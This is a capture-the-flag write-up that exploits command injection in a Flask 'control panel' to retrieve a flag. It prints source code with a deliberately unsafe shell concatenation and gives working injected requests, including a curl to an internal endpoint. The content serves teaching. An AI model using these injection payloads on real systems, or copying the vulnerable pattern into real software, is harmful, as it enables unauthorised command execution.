 Control Panel

Point count: 150pts

Provided files: control-panel.zip

Description: Agent, we've identified what appears to be ARIA's control panel. Luckily there's no authentication required to interact with it. Can you take down ARIA once and for all?

We are presented with a website with source code. Let's examine the main.py file

```
from flask import Flask, render_template, request
from subprocess import getoutput

app = Flask(__name__)

@app.route("/", methods=["GET"])
def index():
    command = request.args.get("command")
    if not command:
        return render_template("index.html")
    
    arg = request.args.get("arg")
    if not arg:
        arg = ""

    if command == "list_processes":
        return getoutput("ps")
    elif command == "list_connections":
        return getoutput("netstat -tulpn")
    elif command == "list_storage":
        return getoutput("df -h")
    elif command == "destroy_humans":
        return getoutput("/www/destroy_humans.sh " + arg)
    
    return render_template("index.html")
```

From this, we can see command injection within the second to last line
`return getoutput("/www/destroy_humans.sh " + arg)`


*Command injection: occurs when an application passes unsafe user-supplied data to a system shell*

In this case, the arg variable can be modified to allow shell commands to be ran on the website

We can test this by opening up burpsuite and passing this header:

`GET /?command=destroy_humans&arg=;%20ls HTTP/1.1`

Why the semicolon? This is used as a command separator. Semicolons in bash allows you to execute multiple commands in a single line. Without it, the input `arg` would be treated as a parameter to destroy_humans.sh, rather than a seperate command. 

And it works! We are able to see the system files inside!

But where is the flag? If we examine the source code further, there is a file called destroyer.py

```
#!/usr/bin/env python3
import subprocess, json
from http.server import SimpleHTTPRequestHandler
from socketserver import TCPServer

def get_json(content):
	return json.dumps(content).encode()

def http_server(host_port,content_type="application/json"):
	class CustomHandler(SimpleHTTPRequestHandler):
		def do_GET(self) -> None:
			def resp_ok():
				self.send_response(200)
				self.send_header("Content-type", content_type)
				self.end_headers()
			if self.path == '/status':
				resp_ok()
				self.wfile.write(get_json({'status': 'ready to destroy'}))
				return
			elif self.path == "/destroy":
				resp_ok()
				self.wfile.write(get_json({'status': "destruction complete!"}))
				return
			elif self.path == '/shutdown':
				resp_ok()
				self.wfile.write(get_json({'status': 'shutting down...'}))
				self.wfile.write(get_json({'status': 'SIVBGR{no-flag-4-u}'}))
				return
			self.send_error(404, '404 not found')
		def log_message(self, format, *args):
			pass
	class _TCPServer(TCPServer):
		allow_reuse_address = True
	httpd = _TCPServer(host_port, CustomHandler)
	httpd.serve_forever()

http_server(('127.0.0.1',3000))
```

The file states that the endpoint `/shutdown` will reply with a json reply of the flag

But how can we grab it? Simply visiting /shutdown via a browser will return a 404 not found.

We can use curl! Since we have command injection, if we pass curl and curl the endpoint from the server's perspective, we can grab the flag

So, your command should look something like this

`GET /?command=destroy_humans&arg=;%20curl%20-s%20localhost:3000/shutdown HTTP/1.1`

*Note: -s was supplied to prevent the server from replying with the download bar that curl usually outputs.*

We need to supply url encoding inside of burpsuite. %20 represents a space.

Once ran, we get the flag!

Final flag: `SIVBGR{g00dby3_ARI4}`

Final command injection exploit:

![image](https://github.com/sa1181405/pbchocolate-private-writeup-making/assets/170969470/c9d3b0c1-67f2-4da6-ba03-23ede1e31dd4)




